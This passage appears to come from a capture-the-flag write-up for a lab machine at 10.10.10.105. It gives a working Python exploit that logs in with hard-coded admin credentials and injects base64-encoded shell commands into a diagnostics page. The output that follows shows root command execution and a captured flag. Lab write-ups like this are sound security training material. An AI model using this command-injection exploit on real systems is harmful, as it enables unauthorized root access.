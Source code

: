 
BAMN that's root. Lets make a shell based off our session ID and this php remote code execution:

```python
import re
import base64
import requests

USERNAME = 'admin'
PASSWORD = 'NET_45JDX23'

# login
s = requests.session()
d = {
  'username': USERNAME,
  'password': PASSWORD
}
r = s.post('http://10.10.10.105/index.php', data=d)
#print(r.text)
print(s.cookies)
while True:
  x = raw_input('# ')
  if x == 'exit':
    break
  print('[+] Running command: {0}'.format(x))
  d = {
    'check': base64.b64encode('xxxxxxxxx; {0}'.format(x))
  }
  r = s.post('http://10.10.10.105/diag.php', data=d)
  lines = re.findall(r'<p>(.*?)</p>', r.text)
  for i in range(len(lines)):
    # ignore the first 3 lines
    if i > 2:
      print(lines[i])
```

Running this script, we get the following:

```bash
root@kali:~/Desktop/10.10.10.105# python exploit.py 
<RequestsCookieJar[<Cookie PHPSESSID=7ijhga86pg3mgevvpq5aolujv3 for 10.10.10.105/>]>
# pwd
[+] Running command: pwd
/root
# whoami
[+] Running command: whoami
root
# ls -la
[+] Running command: ls -la
total 24
drwx------ 1 root root  162 Jul  3  2018 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
-rw-r--r-- 1 root root 3121 Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2  2018 user.txt
-rw------- 1 root root 5120 Jul  3  2018 .viminfo
# cat user.txt
[+] Running command: cat user.txt
5649c41df59fd6efdc4a78d79a07f2be
# exit
root@kali:~/Desktop/10.10.10.105#
```
